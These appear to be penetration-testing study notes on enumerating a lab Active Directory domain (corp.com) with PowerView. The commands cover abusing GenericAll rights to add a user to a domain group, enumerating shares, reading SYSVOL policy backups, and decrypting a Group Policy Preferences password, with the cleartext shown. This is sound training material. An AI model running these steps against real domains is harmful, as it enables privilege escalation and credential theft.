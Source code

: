 #### Converting the ObjectISD into name
```PowerShell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
#### Converting the SecurityIdentifier into name in order to find out who has the *ReadProperty* permission
```PowerShell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
```
#### Enumerating ACLs for the Management Group
```PowerShell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
#### Converting all SIDs that have GenericAll permission on the Management Group
```PowerShell
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```
#### Using "net.exe" to add ourselves to domain group
```PowerShell
net group "Management Department" stephanie /add /domain
```
#### Confirm membership
```PowerShell
Get-NetGroup "Management Department" | select member
```
#### Using "net.exe" to remove ourselves from domain group
```PowerShell
net group "Management Department" stephanie /del /domain
```
### 21.3.5. Enumerating Domain Shares
#### Domain Share Query
```PowerShell
Find-DomainShare
```
SYSVOL is typically used for various domain policies and scripts
#### Listing contents of the SYSVOL share
```PowerShell
ls \\dc1.corp.com\sysvol\corp.com\
```
#### Listing contents of the "SYSVOL\policies share"
```PowerShell
ls \\dc1.corp.com\sysvol\corp.com\Policies
```
#### Checking contents of old-policy-backup.xml file
```PowerShell
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```
#### Using gpp-decrypt to decrypt the password
```Shell
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```
#### Listing the contents of docshare
```PowerShell
ls \\FILES04\docshare
```
#### Listing the contents of do-not-share
```PowerShell
ls \\FILES04\docshare\docs\do-not-share
```